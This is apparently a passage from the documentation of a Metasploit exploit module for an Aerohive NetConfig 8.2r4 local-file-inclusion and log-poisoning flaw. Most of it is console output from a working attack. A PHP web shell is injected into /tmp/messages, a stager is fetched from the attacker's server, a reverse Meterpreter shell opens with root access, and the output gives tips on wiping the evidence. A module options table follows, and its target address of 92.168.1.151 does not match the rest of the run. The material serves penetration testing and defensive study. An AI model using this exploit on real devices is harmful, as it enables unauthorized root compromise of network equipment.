 ```
   --  ----
   0   Linux


msf exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4000
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/tCSLFVW4TC
[*] Local IP: http://192.168.1.229:8080/tCSLFVW4TC
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /tCSLFVW4TC
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[!] Erasing the log poisoning evidence will require manually editing/removing the line in /tmp/messages that contains the poison command:
   <?php system($_POST['PPv9j']);?>
[!] Please note that any modifications to /tmp/messages, even via sed, will render the target (temporarily) unexploitable. This state can last over an hour.
[!] Deleting /tmp/messages or clearing out the file may break the application.
[*] Meterpreter session 23 opened (192.168.1.229:4000 -> 192.168.1.151:57350 ) at 2021-11-02 16:51:28 +0000
[*] Server stopped.

meterpreter > shell
Process 2637 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
grep 'php system' /tmp/messages
2021-11-02 11:51:26 notice  ah_webui: security: Admin "<<?php system($_POST['PPv9j']);?>>" failed to log in
```

### Aerohive NetConfig 8.2r4 - Linux target - AUTO_CLEAN_LOG true
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  true             yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
```